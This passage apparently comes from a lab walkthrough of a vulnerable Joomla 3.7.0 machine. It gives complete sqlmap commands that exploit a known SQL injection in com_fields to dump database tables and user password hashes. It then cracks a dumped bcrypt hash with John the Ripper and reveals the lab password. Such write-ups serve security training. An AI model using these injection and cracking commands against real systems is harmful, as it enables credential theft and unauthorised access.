 ```
web.config.txt
LICENSE.txt
README.txt
index.php
https://update.joomla.org/core/list.xml 
```
This file show us version `3.7.0` April 2017 and also dissclosed some usefull files names/web directories.

[+] Found Public Docuemted SQLi Vulnerability
```
https://www.exploit-db.com/exploits/42033
```
In the above exploit they shows the sqlmap command to exploit the vulnerability.

```shell
sqlmap -u "http://$ip/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```
Using SqlMap Found the following valid Databases.
```sql
[*] information_schema
[*] joomla
[*] mysql
[*] performance_schema
[*] test
```
For furture enumerate we use the following commands.
```shell
sqlmap -u "http://$ip/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomla --tables -p list[fullordering]
```
Above command show us all the tables of `joomla` database but they show some tables like this `#__table-name`. There `#` symbol show there are some random alpha-numeric characters.
We got a table name `#__user` now we can dump its columns with the following command.
```shell
sqlmap -u "http://$ip/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomla -T '#__user' --columns -p list[fullordering]
```
> **Note**: I write `#__user` in quotes so you should use it like that other wise you don't get anything
Above command start bruteforcing the columns. We can guess that and start dumping data from it.
```shell
sqlmap -u "http://$ip/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomla -T '#__user' -C username,password -p list[fullordering]
```
Password Hashes
```
jonah:$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm
```

**Password Cracking**
When I use `hash-identifier` on above hash they tell me its a blowfish(bcrypt) hash now lets start cracking it.
```shell
john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
It takes too much time but we can get the password `spiderman123`
